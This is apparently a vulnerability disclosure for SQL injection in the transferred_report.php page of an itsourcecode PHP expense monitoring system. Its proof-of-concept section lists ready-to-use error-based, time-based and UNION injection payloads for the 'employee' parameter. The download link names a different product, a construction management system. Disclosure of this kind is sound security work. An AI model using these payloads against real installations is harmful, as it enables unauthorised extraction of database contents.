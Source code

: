 # Vendor

itsourcecode

# Product

Project Expense Monitoring System

# version

V1.0

# Download 

https://itsourcecode.com/wp-content/uploads/2021/03/Construction-Management-System-Project-In-PHP-Source-Code.zip

# Vulnerability

SQLi

# Description

There are multiple SQLi injection vulnerabilities in the transferred_report.php page. Attackers can pass special SQL statements in the "$_POST['start']", "$_POST['end']", and "$_POST['employee']" parameters to obtain sensitive data in the database.
<img width="1140" alt="image" src="https://github.com/user-attachments/assets/27982a1c-695b-4e37-947d-8ee6ecc13856">

# POC
```
Parameter: employee (POST)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: employee=2' AND EXTRACTVALUE(8219,CONCAT(0x5c,0x7162627871,(SELECT (ELT(8219=8219,1))),0x717a627a71)) AND 'Priq'='Priq&search=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: employee=2' AND (SELECT 7024 FROM (SELECT(SLEEP(5)))kFSQ) AND 'IGyK'='IGyK&search=

    Type: UNION query
    Title: Generic UNION query (NULL) - 14 columns
    Payload: employee=2' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7162627871,0x45716f47644d666d664649754b656c745a50746f714c474274445472556469537478474853514c69,0x717a627a71),NULL,NULL,NULL-- -&search=
```
